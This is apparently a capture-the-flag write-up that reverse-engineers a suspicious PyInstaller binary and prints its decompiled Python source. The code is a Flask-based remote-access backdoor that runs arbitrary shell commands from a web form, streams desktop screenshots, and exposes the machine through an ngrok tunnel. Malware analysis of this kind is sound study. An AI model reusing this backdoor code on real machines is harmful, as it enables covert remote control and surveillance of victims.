



# Snake oil

## One of our workstations was exhibiting strange network communications... we found this binary that looked to be the culprit. Can you find anything suspicious?

A file is included with the challenge

---

Let's download the file and extract it!

From the challenge name I already suspect it's a python executable file.

When I do this cmd I can confirm at the end we see a `python39.dll` file

`strings snake-oil`



I tried to decompile but ghidra doesn't handle well python-made binaries so I need to find another way.

Using a [decompiler online](https://pyinstxtractor-web.netlify.app/) I managed to extract a ton of files




The file on the top right looks suspicious.  `brain-melt.pyc`

Problem is that the file is not a `.py` file, it's `.pyc` so we need to convert it again.

[This website](https://www.lddgo.net/en/string/pyc-compile-decompile) does that, fortunately.

After decompiling here's the code:

```py
# Visit https://www.lddgo.net/en/string/pyc-compile-decompile for more information
# Version : Python 3.9

from flask import Flask, flash, request, render_template_string, send_file, redirect
from wtforms import Form, TextField, validators, StringField, SubmitField
import subprocess
import pyautogui
import io
import sys
from PIL import Image
from pyngrok import ngrok
import base64
DEBUG = True
app = Flask(__name__)
app.config['SECRET_KEY'] = '9EQrXQ88pwP7UWaXbkmThhKuDdYxsad1'

def decrypt(s1, s2):
    return ''.join((lambda : [ chr(ord(c1) ^ ord(c2)) for c1, c2 in .0 ])(zip(s1, s2)))


def deobfuscate():
    part1 = '2ec7627d{galf'[::-1]
    part2 = str(base64.b64decode('NjIwM2I1Y2M2OWY0'.encode('ascii')), 'UTF8')
    part3 = decrypt('\x17*\x07`BC\x14*R@\x14^*', 'uKeVuzwIexplW')
    key = part1 + part2 + part3
    return key


def ngrok_tunnel():
    ngrok.set_auth_token(deobfuscate())
    http_tunnel = ngrok.connect(5000, 'http', '-log=stdout > NUL')


def Desktop(pil_img):
    img_io = io.BytesIO()
    pil_img.save(img_io, 'JPEG', 70, **('quality',))
    img_io.seek(0)
    return send_file(img_io, 'image/jpeg', **('mimetype',))


def execute(cmd):
    child = subprocess.Popen(cmd, True, subprocess.PIPE, subprocess.PIPE, **('shell', 'stdout', 'stderr'))
    for line in child.stdout:
        print(line)
        l = line.decode('utf-8', 'ignore', **('encoding', 'errors'))
        flash(l)
    for line in child.stderr:
        l = line.decode('utf-8', 'ignore', **('encoding', 'errors'))
        flash(l)


class CommandForm(Form):
    command = TextField('Command:', [
        validators.required()], **('validators',))
    
    def display():
        form = CommandForm(request.form)
        print(form.errors)
        if request.method == 'POST':
            command = request.form['command']
        if form.validate() and request.method == 'POST':
            result = execute(command)
            flash(result)
        else:
            flash('Please enter a command.')
        return render_template_string('<!doctype html>\n                <html>\n                    <head>\n                        <link rel="stylesheet" href="css url"/>\n                            </head>\n                                <body>\n                                    <form action="" method="post" role="form">\n                                        <div class="form-group">\n                                              <label for="Command">Command:</label>\n                                              <input type="text" class="form-control" id="command" name="command"></div>\n                                              <button type="submit" class="btn btn-success">Submit</button>\n                                              </form>\n                                            \n                                            <p>{{ message }}</p>\n                                            \n                                            </iframe>\n                                </body>\n                            \n                            \n                            <script type="text/javascript">\n                            window.onload = function() {\n                                var image = document.getElementById("img");\n\n                                function updateImage() {\n                                    image.src = image.src.split("?")[0] + "?" + new Date().getTime();\n                                }\n\n                                setInterval(updateImage, 1000);\n                            }\n                            </script>\n                            \n                            </html>\n                        ', form, **('form',))

    display = app.route('/', [
        'GET',
        'POST'], **('methods',))(display)


def serve_img():
    screenshot = pyautogui.screenshot()
    return Desktop(screenshot)

serve_img = app.route('/images/desktop.jpg')(serve_img)
# WARNING: Decompyle incomplete
```

The first 2 functions looks very promising. Let's run them with a python interpreter.

> The decompiler is not perfect so I had to "repair" the code. (the decrypt function had a syntax error)





Bingo!